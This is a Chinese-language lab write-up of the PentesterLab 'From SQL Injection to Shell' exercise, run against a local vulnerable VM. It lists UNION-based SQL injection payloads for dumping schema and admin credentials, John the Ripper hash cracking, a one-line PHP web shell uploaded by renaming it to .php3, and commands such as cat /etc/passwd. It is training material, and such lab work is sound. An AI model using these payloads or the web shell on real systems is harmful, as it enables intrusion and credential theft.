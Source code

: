 ﻿##  从SQL注入到Shell

### 实验目的
在基于PHP的网站中使用SQL注入并使用它来访问管理页面，用这种访问，在目标服务器上获得代码执行。

### 实验步骤
- 指纹：收集有关Web应用程序和正在使用的技术的信息
- SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息
- 访问管理页面和代码执行：访问操作系统和运行命令的最后一步

### 实验环境

攻击者主机和靶机均为NAT网络
靶机使用下载的镜像
攻击者主机IP：10.0.2.22
靶机IP：10.0.2.21

![](image/1.PNG)

![](image/2.png)

### 实验过程

#### 1.收集指纹

* http请求测试
  * 攻击者主机浏览器设置代理

  ![](image/3.png)

  * 浏览器访问http://10.0.2.21

  ![](image/4.png)

  * burpsuite劫持

  ![](image/5.png)
  上图可以看出靶机使用的网络服务器、以及php版本信息

* https请求测试
  * 请求失败
  ![](image/6.png)

  * 使用工具wfuzz蛮力检测Web服务器上的目录和页面
    * 使用命令
    ```
    $ python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.21/FUZZ
    ```
    其中
    ```
    -c 表示高亮显示
    -z file，wordlist / general / big.txt 告诉wfuzz使用文件wordlists / general / big.txt作为字典来强制远程目录的名字。
    --hc 404 告诉wfuzz忽略响应，如果响应代码是404（Page not found）
    http：// vulnerable / FUZZ 告诉wfuzz用字典中的每个值替换URL中的FUZZ这个词。
    ```

    `没有成功`

#### 2.SQL注入的检测和利用

##### SQL注入检测
* SQL简介
 * retrieve information using the SELECT statement; `检索`
 * update information using the UPDATE statement; `修改`
 * add new information using the INSERT statement;`增加`
 * delete information using the DELETE statement.`删除`


* 发现sql漏洞存在：

  请求10.0.2.21/cat.php?id=3' 网页报错提示语法错误(单引号)以及数据库应为Mysql

  ![](image/8.png)

* 基于整数测试 用户提供的值被视为一个整数直接回显到SQL请求中

  ![](image/9.png)
  ![](image/10.png)

* 利用UNION开发SQL注入
  * 获取数据库版本号

  `.php?id=1 UNION SELECT 1,@@version,3,4`

  ![](image/11.png)

  * 获取系统当前用户名

  `.php?id=1 UNION SELECT 1,current_user(),3,4`

  ![](image/12.png)

  * 获取当前数据库名

  `.php?id=1 UNION SELECT 1,database(),3,4`

  ![](image/13.png)

##### 通过查看information_schema数据库获取更多信息

  >在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。


* 检索数据库中所有表名

  `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

  ![](image/14.png)

* 检索数据库中所有列名

  `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

  ![](image/15.png)

* 查看表名和列名的对应关系

  `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

  ![](image/16.png)

* 获取管理员密码

  `1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;`

  ![](image/17.png)

##### 破解密码

`8efe310f9ab3efeae8d410a8e0166eb2`

* 方法一：网上在线破解

  ![](image/18.png)

* 方法二：John the ripper密码破解工具

  ```
  命令：
  john password --format=raw-md5 --wordlist=dico --rules
  参数：
  password 告诉 John 什么文件包含密码的哈希值
  --format=raw-md5 告诉 John 密码哈希是 raw-md5 格式
  --wordlist=dico 告诉 John 使用文件 dico 作为字典
  --rules 告诉 John 尝试遍历每个可用的单词
   ```
  ![](image/19.png)

两种方法解密出的结果都是`P4ssw0rd`

####  3.访问管理页面和代码执行

* 根据破解的密码和用户名进入管理界面
![](image/20.png)

* 创建php脚本后点击上图界面的右侧`New Picture`按钮上传脚本文件
```php
<?php
system($_GET['cmd']);
?>
```
  * 直接上传php文件会显示失败因为不支持php文件的上传，将文件后缀名改为.php3之后可以成功上传
  ![](image/21.png)
  ![](image/22.png)

* 利用cmd执行任意命令利用脚本
  * 访问http：//vulnerable/admin/uploads/shell.php3？cmd = uname将在操作系统上运行命令uname并返回当前内核。
  ![](image/23_1.png)
  ![](image/23.png)

  * ls获取当前目录的内容
  ![](image/24.png)

  * 获取靶机系统用户列表
  `cat /etc/passwd`
  ![](image/25.png)
  ![](image/25_1.png)

####  参考资料

>From SQL Injection To Shell指导书https://pentesterlab.com/exercises/from_sqli_to_shell/course
